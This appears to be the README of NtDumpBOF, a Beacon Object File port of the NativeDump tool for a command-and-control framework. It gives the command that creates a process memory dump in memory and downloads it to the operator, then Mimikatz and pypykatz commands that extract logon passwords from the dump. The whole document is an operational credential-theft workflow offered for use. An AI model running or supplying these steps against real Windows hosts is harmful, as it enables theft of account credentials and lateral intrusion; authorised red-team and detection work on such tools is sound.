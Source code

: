 # NtDumpBOF

BOF port of the tool https://github.com/ricardojoserf/NativeDump written by @ricardojoserf.

Import NtDump.cna and run:

```
ntdump <filename>
```
The minidump file will be created in memory and downloaded using CALLBACK_FILE and CALLBACK_FILE_WRITE.
Once downloaded the file will be visible at **View** -> **Download**.

This can subsequently be parsed using Mimikatz

```
mimikatz # sekurlsa::minidump <file path to downloaded minidump file>
mimikatz # sekurlsa::logonpasswords full
```

Or pypykatz

```
pypykatz lsa minidump <file path to downloaded minidump file>
```
